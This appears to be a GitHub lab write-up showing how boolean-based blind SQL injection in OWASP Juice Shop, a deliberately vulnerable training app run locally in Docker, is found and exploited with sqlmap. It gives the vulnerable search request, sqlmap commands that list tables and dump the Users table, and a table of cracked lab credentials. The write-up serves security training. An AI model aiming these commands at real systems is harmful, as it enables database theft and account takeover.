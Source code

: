 # 🔓 SQL Injection Lab – OWASP Juice Shop

This lab demonstrates how to discover and exploit a **boolean-based blind SQL injection** vulnerability in OWASP Juice Shop using `sqlmap`.

---

## 🛠️ Lab Environment

- **Target:** OWASP Juice Shop (Docker)
- **Attacker:** Kali Linux VM
- **Tools Used:** Docker, Firefox Dev Tools, SQLMap

---

## 🚀 Steps Performed

### 1. Started Juice Shop
bash

sudo docker run --rm -p 3000:3000 bkimminich/juice-shop

Juice Shop accessible at: http://localhost:3000

### 2. Found SQLi Vulnerability
Searched for a product in the Juice Shop search bar using '

Captured the backend request:

sql
GET /rest/products/search?q=

Used Firefox Dev Tools → “Copy as cURL” → converted into raw HTTP request (juice-request.txt)

## 3. Ran SQLMap

sqlmap -r juice-request.txt --batch --tables

✅ Backend DBMS: SQLite

✅ SQL Injection Type: Boolean-based blind

✅ 20 database tables retrieved

## 4. Dumped Users Table

sqlmap -r juice-request.txt --batch -T Users --dump

## 5. Cracked Password Hashes
SQLMap auto-cracked several MD5 hashes using its built-in dictionary:

| Email                    | Role     | Cracked Password |
| ------------------------ | -------- | ---------------- |
| `J12934@juice-sh.op`     | admin    | `admin123`       |
| `demo`                   | customer | `demo`           |
| `uvogin@juice-sh.op`     | deluxe   | `private`        |
| `accountant@juice-sh.op` | customer | `ncc-1701`       |


## 🧠 Takeaways
SQL injection can still be found in modern web apps using APIs.

SQLite doesn’t support multi-db enumeration, but data can still be dumped.

Weak passwords make post-exploitation trivial.
